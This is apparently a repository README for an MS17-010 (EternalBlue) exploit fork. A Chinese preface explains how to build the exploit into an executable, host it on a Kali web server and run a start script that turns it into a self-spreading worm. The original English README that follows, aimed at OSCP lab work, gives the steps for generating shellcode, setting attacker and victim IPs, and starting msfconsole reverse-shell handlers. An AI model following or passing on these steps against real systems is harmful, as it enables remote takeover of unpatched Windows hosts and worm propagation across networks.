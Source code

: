 使用说明：  
1、clone代码到windows随便一个目录  
2、安装pyinstal  
   python2 -m pip install pyinstall  
   注意一定要Pyton2  
3、python2 -m pip install impacket  
4、C:\Python27\Scripts\pyinstaller.e e -F eternalblue_exploit7.py  
 然后把dist文件夹下的exe拷贝到kali的/var/www/html里面改名e.exe  

5、然后再clone一份到kali  
6、运行./worm_start.sh  
7、service apache2 start  

将/var/www/html里面的1.exe放到要攻击的靶机上就可以运行  

当然前提是有很多东西要改，在main.go和worm_start.sh里，很简单自己看着改吧，这里不讲了，必定是条虫子  
另外这个版本是一个低效版，有一定概率能够蠕成功  

一下是原版readme  
-------------------------------------------------------  
# MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the [PWK course](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/) and the [OSCP certification](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/)  . Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

# Reliability
Its very reliable, I have not come across an unpatched Windows 7 PC that it has not worked against (in PWK and personal Lab environment).
If the system is vulnerable and it does not work the first time around keep trying.. or take a break and regenerate the shellcode again and again, eventually you will own the computer and have full **nt authority\system** rights on the pwned system.


# Use



To get up and running theres 2 things you need to do, open up the start.sh file and add you own ip as the **attackerIP** and the victim OS IP in **vulnerableIP** you can optionally change the port numbers that msfconsole will listen on but generally you can leave them as is.
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```

fire up  the script and just follow the on screen instructions after the 7 step generation process. 

```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python **eternalblue_exploit7.py** exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.

```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```


# Disclaimer
Do not use this on systems unless you have been given explicit permission. 
This is created for use in the PWK labs and OSCP exam lab. 
It may have unpreceedented consequenses both legally and ethically if used inappropriately. 
This is a POC script and I bare no responsibility for its use by others.
